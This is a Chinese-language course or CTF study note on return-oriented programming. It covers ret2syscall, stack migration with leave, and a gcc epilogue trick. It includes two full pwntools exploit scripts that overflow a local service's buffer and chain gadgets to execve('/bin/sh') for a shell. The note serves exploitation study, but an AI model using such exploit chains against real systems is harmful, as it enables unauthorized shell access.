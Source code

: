 # Week4

## ROP

- 控制寄存器做 syscall
- 使用原程序中的 function
- 使用 libc 中的 gadget 或 function

`ROPgadget --binary $binary`

### ret2syscall

程序里如果没有 `/bin/sh` 可以先用 read 读一个然后再用 execve

```python
##coding=utf8
from pwn import *

# r = process('./p1')
r = remote('127.0.0.1', 8888)

offset = 22
pop_eax_edx_ebx_ret = 0x08053d14
pop_ecx_ret = 0x080595b3
buf = 0x080ee000 - 100
syscall = 0x0806ef00

rop = [
    pop_eax_edx_ebx_ret, 3, 100, 0, 
    pop_ecx_ret, buf,
    syscall,

    pop_eax_edx_ebx_ret, 0x0b, 0, buf,
    pop_ecx_ret, 0,
    syscall, 0xdeadbeef
]

r.sendline('a'*offset + ''.join(map(p32, rop)))
sleep(1)
r.send('/bin/sh\x00')

r.interactive()
```

### Stack Migration

`leave = mov esp, ebp ; pop ebp`

 函数入口处有 `push ebp ; mov ebp, esp`

- 使用 leave 把栈迁移到已知位置
- 确定 ROP chain 的位置，可以直接附加其他 data
- 可以无限次 ROP
- migrate 后的空间足够长

```python
##coding=utf8
from pwn import *

r = remote('127.0.0.1', 8888)

offset = 22
buf = 0x080ed080
pop_eax_ret = 0x080b90f6
pop_ebx_ret = 0x080481c9
pop_ecx_ret = 0x080595b3
pop_edx_ret = 0x0806e7da
syscall = 0x0806ef00
# leave == mov esp, ebp ; pop ebp
leave_ret = 0x08048ad8
pop_ebp_ret = 0x08048363
main = 0x08048b94
gets_gadget1 = 0x8048ba1


migration = [
    pop_ebp_ret,
    buf - 4,
    pop_eax_ret,
    buf,
    gets_gadget1,
]

rop = [
    pop_eax_ret,
    11,
    pop_ebx_ret,
    buf + 9*4,
    pop_ecx_ret,
    0,
    pop_edx_ret,
    0,
    syscall,
]

r.sendline('a'*offset + ''.join(map(p32, migration)))
sleep(1)
r.sendline(''.join(map(p32, rop)) + '/bin/sh\x00')
r.interactive()

```

使用 gets_gadget 读入后续的 ROP chain，先控制 ebp = buf - 4，经过 leave 后有 esp = buf - 4, ebp = [buf]，这样 stack 就迁移到了 buf 处，ret 会执行接下来的 ROP chain

```assembly
mov    DWORD PTR [esp],eax
call   804efe0 <_IO_gets>
mov    eax,0x0
leave
ret
```

### Stack Overflow 会破坏 esp 的情况

gcc 4.9？ 后的 function epilogue 跟之前不同

![image-20200720184007358](image-20200720184007358.png)

先记录 stack 位置，`lea ecx, [esp+0x4] ; push ecx`，在 leave 之后会恢复 esp。

这样的好处就是可以利用最后的 `lea esp, [ecx-0x4]` 做栈迁移。

Trick：

- 把 stack 往上拉，控制 ecx 的最低字节被 0 覆盖，也就是传入刚好在 ecx 之上的字符串，用末尾的 `\x00` 覆盖，这样 esp 就会减小，栈就会向上延伸，esp 在原有的 buffer 内

